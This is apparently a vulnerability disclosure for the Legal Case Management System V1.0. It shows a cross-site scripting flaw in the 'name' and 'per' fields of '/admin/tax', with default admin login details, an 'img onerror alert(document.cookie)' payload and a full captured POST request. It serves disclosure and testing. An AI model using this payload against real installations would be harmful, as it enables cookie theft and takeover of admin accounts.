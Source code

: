 ## Legal Case Management System

## XSS on `/admin/tax`

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/legal-case-management-system/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/admin/login
superadmin@gmail.com
12345678Ab@
```

### Affected Page:

```
/admin/tax
```

The parameter `name` /`per` are being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

### Proof of Concept:

Payload:

```
<img src=1 onerror="alert(document.cookie)">
```

Burp Request:

```
POST /admin/tax HTTP/1.1
Host: 192.168.150.131
Content-Length: 538
Accept: */*
DNT: 1
X-CSRF-TOKEN: ULMyHyzFjMsFtMuhHe7fZNzX3Wzq3QzrNCAeTRLy
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryRJEXxXSvX52sOib7
Origin: http://192.168.150.131
Referer: http://192.168.150.131/admin/tax
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: XSRF-TOKEN=eyJpdiI6InlJUW9wK1NEOWx3dUY1VjcxM3l0YVE9PSIsInZhbHVlIjoiSnJDR1A5c09HRDRKMXdqRzBWN3AyTmFHWmtKTnB5cksrVHJ0UzhSbmNFcFwvaXhVdGZJdm16aW1NTkdLNlBiN0IiLCJtYWMiOiIyOTA5ZWNlNTYzMjY4ZDRiMjQwZWM1NjY4ZDVjNDc2MGNiNjA0MTFjNTBjZDJiYWE1OGY4OGM2ZDFmYmI0YTE5In0%3D; test_session=eyJpdiI6ImppaWxRV292eUtkcmxodEtMTE9ZN2c9PSIsInZhbHVlIjoiK2ROT1RmNG56WElrTzNnR0tVNTcxN1VkT01QZzF2eVlJRWhqeWpnSk95UWNkNWdsVitJWEh2TTM4U0VcL1U3YWgiLCJtYWMiOiIyZmZlZWIyYmJiMzAwMmRkYTc5OTUzNTdkNzY0Mjg0NzczMzE3ODQ5OWFjYWMwYjAxZTc3MDJkNWEyY2YyNjg2In0%3D
Connection: close

------WebKitFormBoundaryRJEXxXSvX52sOib7
Content-Disposition: form-data; name="_token"

ULMyHyzFjMsFtMuhHe7fZNzX3Wzq3QzrNCAeTRLy
------WebKitFormBoundaryRJEXxXSvX52sOib7
Content-Disposition: form-data; name="name"

<img src=1 onerror="alert(document.cookie)">
------WebKitFormBoundaryRJEXxXSvX52sOib7
Content-Disposition: form-data; name="per"

<img src=1 onerror="alert(document.cookie)">
------WebKitFormBoundaryRJEXxXSvX52sOib7
Content-Disposition: form-data; name="note"

3
------WebKitFormBoundaryRJEXxXSvX52sOib7--

```

### Screenshot

![image-20240509200920751](./screenshot/image-20240509200920751.png)
